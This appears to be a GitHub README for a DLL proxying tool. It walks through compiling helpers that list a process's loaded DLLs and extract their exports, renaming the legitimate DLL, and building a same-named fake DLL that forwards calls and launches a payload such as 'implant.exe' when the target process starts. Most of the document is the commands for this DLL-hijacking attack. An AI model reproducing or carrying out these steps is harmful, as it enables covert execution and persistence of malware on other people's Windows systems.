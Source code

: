 # Why I Built This DLL Proxy Tool

I saw that many tools perform all the steps automatically, without giving the user any real control or ability to make changes along the way.
So I decided to build it myself.

# DLL Proxy

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp** : Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp** : Extracts the exported functions from DLL.

- **maker.sh** : Adds the extracted functions into a template for creating a fake (proxy) DLL.


# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```
**Step 3**  

Copy the extracted function names to file.txt.  
> expample file.txt
 
![](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
```cmd
x86_64-w64-mingw32-g++ -shared -o example.dll output.cpp
```
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**
